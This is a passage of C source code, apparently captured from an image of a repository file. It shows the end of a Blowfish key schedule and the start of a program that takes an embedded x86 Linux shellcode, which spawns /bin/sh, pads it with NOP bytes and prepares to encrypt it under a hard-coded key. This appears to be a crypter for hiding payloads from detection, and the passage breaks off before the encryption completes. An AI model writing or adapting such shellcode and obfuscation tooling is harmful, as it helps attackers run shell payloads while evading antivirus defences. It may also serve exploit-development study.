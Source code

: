 ```c
		P[i+1] = R;
	}

	for (i=0; i<4; ++i)
		for (j=0; j<256; j+=2)
	{
		encrypt(&L,&R);
		S[i][j] = L;
		S[i][j+1] = R;
	}
}


int main(uint32_t argc, uint8_t **argv)
{

	uint8_t *shellcode = "\x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80";
	uint8_t *newshellcode;		// padded shellcode
	uint32_t i, j, length = 0;	// shellcode's length
	uint32_t newlength = 0;		// # new length of shellcode
	uint32_t padding = 0;		// number of padding chars
	uint8_t padchar = '\x90';	// padding character for the shellcode
	uint32_t blocks = 0;		// # of 32-bit = 4 bytes blocks (half 64bit)

	uint8_t *key = "testke";	// encryption key - CHANGE ME
	uint32_t keylength;		// key length
	uint32_t keypad;
	uint32_t keypaddedlength;	// number of 32bit cells

	uint32_t L;
	uint32_t R;


	keylength = stringlen(key);	// # number of characters in key
	printf("[+] keylength: %d\n", keylength);

	keypad = paddingneeded(keylength, 4);		// # of character to be added to key
	printf("[+] keypad needed: %d\n", keypad);

	keypaddedlength = (keylength+keypad)/4;

	// allocate memory for padded key
	uint32_t *keypadded = (uint32_t *)malloc(sizeof(uint32_t)*keypaddedlength);

	j=0;
	for (i=0; i<keypaddedlength; i++)
	{
		keypadded[i] = key[(j+3)%keylength] | (key[(j+2)%keylength] << 8) | (key[(j+1)%keylength] << 16) | (key[j%keylength] << 24);
		j +=4;
	}

	length = stringlen(shellcode);			// shellcode's length
	padding = paddingneeded(length, 8);		// # of padding characters needed
	printf("[+] Padding of: %d byte(s) is needed\n", padding);

	newlength = length + padding;			// shellcode's newlength (after padding or not)

	newshellcode = (uint8_t *)malloc(sizeof(uint8_t)*newlength);

	// little-endian to big-endian and padding
	j = 3;
```